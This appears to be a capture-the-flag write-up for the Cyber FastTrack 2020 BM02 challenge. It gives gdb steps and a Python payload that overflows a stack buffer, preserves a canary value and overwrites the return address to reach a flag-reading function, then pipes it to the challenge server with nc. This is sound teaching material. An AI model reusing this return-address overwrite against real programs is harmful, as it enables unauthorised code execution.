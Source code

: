# Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG\
![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.PNG\
![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c

BM02_3.PNG\
![image info](BM02_3.PNG)
* Notice that, in order to enter the exploitable() function, we first need to enter `add_candidate` to add employee and then enter the exploitable() function.

BM02_4.PNG\
![image info](BM02_4.PNG)
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.


BM02_5.PNG\
![image info](BM02_5.PNG)
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`

BM02_6.PNG\
![image info](BM02_6.PNG)
* Enter one information for each of the First Name, Last Name, and Job Title.
  * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`

BM02_7.PNG\
![image info](BM02_7.PNG)
* Enter info frame to get the return address that stored at eip. In this case, the return address is `0x56557492`. 

BM02_8.PNG\
![image info](BM02_8.PNG)
* Display the current and the next 199 stack pointer.
* Enter `x/200x $sp`
* The addresses that are 0x00000000 are local variables that we need to fill in before accessing/changing the return address. So in a text file, we enter the following and save it as a python file.
```python
print("add_candidate")
print('A'*20)
```
BM02_9.PNG\
![image info](BM02_9.PNG)
* Hold down the Ctrl key and press c to exit the current program
* Run the program as: 
  * `run < <(python bm02.py)`
* Type `y` to start from the beginning
* In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are 25 0x00000000 remaining for us to fill out and then we have to overwrite the 0xdeadbeef.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are 3 adresses remaining to changes. Then, we changes the return address to 0x5655615d. Remember, we have to write the address in reverse byte order.
	We changes the contents of the python file to:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
```	

BM02_10.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	Enter info frame to see if the return address changed to 0x5655615d.
BM02_11.PNG
	Use si to execute one instruction at a time to see if the program enters the read_flag(void) function.
	We see that the program enters the read_flag(void) function.
BM02_12.PNG
	Use si to execute one instruction at a time and we will see the flag eventually.
BM02_13.PNG
	In order to get the server to response to our request, we also need to print out the last name and the job title, so we edit the python file as below:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
	print("last name")
	print("job title")
	Send the bm02.py to the server and it would prints out the flag.
	python bm02.py | nc bm02.allyourbases.co 9003





	
